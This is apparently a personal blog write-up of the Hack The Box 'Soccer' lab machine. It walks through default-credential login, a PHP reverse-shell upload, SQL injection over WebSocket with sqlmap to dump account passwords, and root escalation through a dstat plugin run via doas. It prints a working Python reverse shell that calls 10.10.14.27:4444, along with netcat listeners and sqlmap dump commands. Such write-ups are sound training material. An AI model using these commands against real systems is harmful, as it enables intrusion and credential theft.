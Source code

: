 ```yaml
---
layout: post
title:  "Hackthebox - Soccer writeup"
date:   2023-05-17 19:00:00 +0300
categories: HTB write-up
---
```


This has been a fun box. It is ranked as easy, but I would argue it is more difficult than that. Pawning the user takes some time and thought.


## Initial foothold

As always, let's start with a port scan.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-nmap-soccer.png "HTB soccer nmap scan")

<br>

The only interesting finding for now is the http service on port 80, which is a simple static html page under the soccer.htb domain. Nothing much we can do about it. Let's brute force soccer.htb with gobuster.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/gobuster-soccer-htb.png "HTB soccer gobuster")

<br>

We find only one subdirectory /tiny. It turns out to be a very simple php file management system. By vising the official Tiny file manager page on Github I can see a list of default passwords for admin and user. And of course they work...

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-tinyfilemanager.png "HTB soccer tinyfilemanager")

<br>


When logging in as admin I can browse the webpage directory and I can see an upload function as well (not visible in the image below).

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-admin-tinyfilemanager.png "HTB soccer admin tinyfilemanager")

<br>

I uploaded the php-reverse-shell.php script that can be found under /usr/share/webshells/php in kali linux. I set my IP adress and a preferable port number and uploaded the script. Before visiting the link where the script resides I start netcat locally on my machine.

```
nc -lvp 4444
```

When visiting the php link from my browser I get a shell as www-data on my kali machine. The next step is to get a user.

<br>

## User flag

At this point I was using grep and find to check in interesting files and folders and see what services are being run on the machine. I particularly searched for references of "player" as that is the name of the user according the folder found under /home. What caught my eye is the following:

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-1.png "HTB soccer user flag")

<br>

It clearly looks like another subdomain that I can access. I had to add the same configuration in my /etc/hosts file to be able to access the soc-player.soccer.htb subdomain.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-2.png "HTB soccer user flag subdomain")

<br>

I checked around and tried sql injection on the forms, but I didn't find anything interesting. When registering a user I see that under Tickets there is another form that I can use to interact with the server.

I routed traffic through Burp and I see that it is essentially a web socket connection being utilized to check validity of tickets.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-3.png "HTB soccer Websocket protocol switch")

<br>


<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-4.png "HTB soccer Websocket protocol burp")

<br>

At this point the websocket connection seemed the only alternative I had to move forward with this machine. I simply googled for websocket exploits as I didn't have much experience with websockets.

Eventually I found that sql injections could be suitable for my scenario and also I ended up reading this blog post: [Automating Blind SQL injection over WebSocket](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html?ref=appsecguy.se)

I followed the instructions as detailed in that blog post to run sqlmap over a websocket connection. All you need to do is use:

```
ws_server = "ws://soc-player.soccer.htb:9091"
```

and set

```
data = '{"id":"%s"}' % message
```

You then run the python script on your kali machine and execute sqlmap from another shell as follows:

```
sqlmap -u "http://localhost:8081/?id=1" -p “id”
```

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-sqlmap.png "HTB soccer SQLMap")

<br>

Bingo, I found an sql injection vulnerability.

Eventually I found myself running a few extra sqlmap commands to get a dump of the database table holding the passwords.

```
sqlmap -u "http://localhost:8081/?id=1" -p "id" --dump -D soccer_db -T accounts
```

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-sqlmap-2.png "HTB soccer SQLMap credentials dumping")

<br>

Let's try to login as the user "player" using ssh.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-ssh-login.png "HTB soccer SSH login")

<br>

## Root flag

I download and run [LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS?ref=appsecguy.se) to find privilege escalation paths.

I see dstat under group writable files and my user having executable rights for doas, which is a sudo alternative. My current user did not have sudo rights unfortunately.

dstat can run python plugins that found in specific directories, as per this [post](https://gtfobins.github.io/gtfobins/dstat/?ref=appsecguy.se).

If I place a python reverse shell from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md?ref=appsecguy.se#python) in /usr/local/share/dstat and then execute that  python script with dstat, by calling dstat using doas, I should get an elevated shell back at my attacker machine.

I saved the following python script as dstat-plugin in /usr/local/share/dstat.

```
import socket,os,pty;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);

s.connect(("10.10.14.27",4444));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

pty.spawn("/bin/sh")
```

I started a listener on my Kali machine.

```
nc -lvp 4444
```

Finally, I executed the python script with:

```
doas -u root /usr/bin/dstat  --plugin
```

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-root-flag.png "HTB soccer root flag")

<br>